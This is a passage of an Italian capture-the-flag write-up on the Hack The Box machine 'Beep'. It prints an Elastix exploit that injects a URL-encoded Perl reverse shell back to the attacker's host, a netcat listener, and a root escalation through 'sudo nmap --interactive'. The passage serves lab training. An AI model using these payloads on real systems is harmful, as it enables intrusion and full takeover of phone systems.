 ```bash
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)

# On Elastix, once we have a shell, we can escalate to root:
# root@bt:~# nc -lvp 443
# listening on [any] 443 ...
# connect to [172.16.254.223] from voip [172.16.254.72] 43415
# id
# uid=100(asterisk) gid=101(asterisk)
# sudo nmap --interactive

# Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
# Welcome to Interactive Mode -- press h <enter> for help
# nmap> !sh
# id
# uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)  
```

Modifichiamo l'exploit  alle voci 

```bash
import urllib
import ssl
rhost="10.10.10.7"
lhost="10.10.14.34"
lport=1234
extension="1000"
```

la parte codificata nel parametro url  sembra un'iniezione di comando che invia una shell inversa alla nostra macchina d'attacco. Impostiamo un listener netcat su lhost e lport configurati per ricevere la shell inversa. 

ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# nc -lnvp 1234
listening on [any] 1234 ...
```

ma non funziona...

Proviamo a vedere cosa non va

L'errore  potrebbe avere a che fare con il valore di `estension` predefinito nello script. In realtà non sappiamo se il valore 1000 è un'estensione valida. Per capirlo, dovremo utilizzare gli strumenti di sicurezza SIPVicious. In particolare, lo strumento svwar identifica le linee interne funzionanti su un PBX. Eseguiamo questo strumento per enumerare le estensioni valide.
